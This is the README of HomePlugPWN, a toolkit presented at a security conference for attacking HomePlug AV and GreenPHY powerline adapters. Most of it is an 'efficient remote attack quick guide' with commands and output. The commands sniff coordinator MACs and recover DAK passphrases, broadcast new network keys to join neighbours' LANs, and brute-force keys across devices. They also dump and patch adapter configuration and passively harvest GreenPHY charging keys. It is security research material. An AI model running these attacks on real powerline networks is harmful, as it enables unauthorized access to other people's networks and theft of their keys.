 HomePlugPWN
===========

- HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf
- Tools on HomePlug GreenPHY will be presented soonly...

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 
- HPGPKeysCollect.py: parse HPGP messages and collect keys

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python2 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC Programmable Information Blocks (PIB) should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Patch your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and its new value:

```bash
python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

The MAC address should be changed after that for your targeted device. But if the addresses are read-only for this device, you have to hack a little bit to reflash it correctly.

Nevertheless, if you want to change any arbitrary byte use this command as follows:

```bash
 python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Collecting HomePlug GreenPHY keys from SLAC procedure

The standard is vulnerable to passive attack, letting an attacker to collect keys during a SLAC procedure.

The tool `HPGPKeysCollect.py` implements the passive attack to collect keys from a capture, or by sniffing the local PLC interface as follows:

```bash
python HPGPKeysCollect.py -i eth0
[...]
Sniffing on interface 'eth0'
[...]
[+] New keys collected for NetID ('\x45\x00\x23\x34\x76\x34\x01')
{'EVID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcc',
 'EVSEID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00',
 'NMK': 'YT\xe2\x1e\x45\xf4\x23\x00E\x34\x45\xe7\xc2\x34',
 'RunID': '\x12BA\xee\xff\xe1\x36\x09'}
```

Please note that at least byte `0x1653` of the PLC should be set to '1' to get it work.

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
* Homeplug AV and IEEE 1901: A Handbook for PLC Designers and Users
